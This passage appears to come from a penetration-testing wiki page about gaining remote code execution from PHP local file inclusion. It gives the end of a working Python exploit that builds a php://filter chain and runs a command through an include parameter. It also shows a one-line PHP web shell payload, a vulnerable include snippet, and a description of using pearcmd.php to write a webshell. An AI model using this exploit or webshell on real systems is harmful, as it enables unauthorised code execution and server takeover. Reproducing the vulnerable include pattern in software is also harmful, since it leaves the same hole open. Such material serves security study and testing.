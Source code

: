 ```python
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

final_payload = f"php://filter/{filters}/resource={file_to_use}"

r = requests.get(url, params={
    "0": command,
    "action": "include",    
    "file": final_payload   # CHANGE to parameter where file is included
})

print(r.text)
```

For arbitrary contents instead of just the ``<?=`$_GET[0]`;;?>`` needed here, check out the [list of all base64 characters](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters#improvements) that Carlos Polop made. Synacktiv later also made a tool that automates it:

{% embed url="https://github.com/synacktiv/php_filter_chain_generator" %}
Tool to quickly generate PHP filter chains with arbitrary content
{% endembed %}

<details><summary>Payload: <code>&#x3C;?=`$_GET[0]`?></code></summary></details>

### RCE using `pearcmd.php`

Recently a new technique was developed for cases where you **don't control the start** of the `include` path. In such cases, you cannot use wrappers, but directory traversal using `../` is still possible. This opens up the possibility of using other existing PHP files on the system to execute arbitrary code, which the following writeup found a technique for:

{% embed url="https://www-leavesongs-com.translate.goog/PENETRATION/docker-php-include-getshell.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=nl&_x_tr_pto=wapp#0x06-pearcmdphp" %}
Using `pearcmd.php` to get RCE from local file inclusion through directory traversal
{% endembed %}

{% code title="Vulnerable code" %}
```php
<?php
include 'includes/' . $_GET['page'] . '.php';
```
{% endcode %}

This technique is especially useful if `.php` is **appended** to your input like many `?page=` parameters. Because the `/usr/local/lib/php/pearcmd.php` file fits this requirement it is very usable. To interact with this script we use the query string which is passed as command-line arguments. The `config-create` subcommand allows us to write a file anywhere with some content we control, perfect for writing a webshell!
